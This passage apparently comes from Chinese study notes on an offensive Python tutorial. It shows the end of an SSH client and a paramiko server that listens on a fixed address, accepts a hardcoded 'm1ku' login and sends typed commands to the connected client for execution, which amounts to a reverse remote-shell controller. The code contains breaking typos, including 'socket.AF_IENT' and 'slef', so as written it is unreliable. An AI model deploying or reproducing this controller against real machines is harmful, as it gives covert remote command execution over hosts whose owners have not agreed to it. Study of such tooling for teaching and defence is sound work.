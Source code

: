 ```python
    ip = input('Enter server IP: ')
    port = int(input('Enter port: '))
    ssh_command(ip, port, user, password, 'ClientConnected')
```

### 9.3.3. 服务器（给客户端发送命令并得到结果）
```python
import os, paramiko, socket, sys, threading
CWD = os.path.dirname(os.path.realpath(__file__))
HOSTKEY = paramiko.RSAKey(filename = os.path.join(CWD, 'test_rsa.key'))

class Server(paramiko.ServerInterface):
    def __init__(self):
        self.event = threading.Event()

    def check_channel_request(slef, kind, chanid):
        if kind == 'session':
            return paramiko.OPEN_SUCCEEDED
        return paramiko.OPEN_FAILED_ADMINISTRATIVELY_PROHIBITED

    def check_auth_password(self, username, password):
        if (username == 'm1ku') and (password == 'm1ku'):
            return paramiko.AUTH_SUCCESSFUL

if __name__ == '__main__':
    server = '10.0.2.21'
    port = 3333

    try:
        sock = socket.socket(socket.AF_IENT, socket.SOCK_STREAM)
        sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        sock.bind((server, port))
        sock.listen(100)
        print('[+] Listening for connection...')
        client, addr = sock.accept()

    except Exception as e:
        print('[-] Listen failed: ' + str(e))
        sys.exit(1)

    else: # the follow codes will be excute if try no problem
        print('[+] Got a connection!', client, addr)

    bhSession = paramiko.Transport(client) # An SSH Transport attaches to a stream (usually a socket)
    bhSession.add_server_key(HOSTKEY)
    server = Server()
    bhSession.start_server(server=server)
    
    chan = bhSession.accept(20)
    if chan is None:
        print('*** No chcannel!')
        sys.exit(1)

    print('[+] Authenticated!')
    print(chan.recv(1024))
    chan.send('Welcome to bh_ssh')
    try:
        while True:
            command = input("Enter command: ")
            if command != 'exit':
                chan.send(command)
                r = chan.recv(8192)
```